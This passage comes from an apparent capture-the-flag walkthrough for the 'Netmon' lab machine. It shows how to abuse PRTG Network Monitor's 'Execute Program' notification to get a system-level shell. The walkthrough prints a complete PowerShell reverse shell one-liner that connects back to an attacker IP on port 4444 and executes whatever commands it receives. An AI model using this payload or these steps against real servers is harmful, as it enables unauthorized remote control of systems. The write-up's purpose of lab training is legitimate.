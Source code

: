 And there we have our flags.

<p>&nbsp;</p>
=======================================================

## Manual Exploitation without Creating a New User Account

=======================================================

An alternate way is to directly obtain a system level shell by abusing the PRTG admin web page's notifications using a powershell one-liner reverse shell: 

Log in to the PRTG admin web page, click the dropdown menu on the left (three horizontal bars) then click Setup:

![](/images/netmon/26. setup.png)

On the screen that comes up next, click “Notifications”:

![](/images/netmon/27. notifications.png)

On the far right, click “Add New Notification”

![](/images/netmon/28. add.png)

Give your Notification an easy-to-remember name then scroll down until you see “Execute Program”:

![](/images/netmon/29. notification.png)

Netmon (Windows) PRTG authenticated exploit, psexec.py privesc, alt privesc powershell one-line

![](/images/netmon/30. execute.png)

Click Execute Program

Go to a one-line reverse shell cheat sheet: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

Prep your one-line powershell reverse shell command like this:

    Test; "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.24',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()" 

![](/images/netmon/30. execute_2.png)

Change the “Program File” setting to read “Demo exe notification - outfile.ps1”

Paste your one-line powershell reverse shell into the “Parameter” box

Click Save
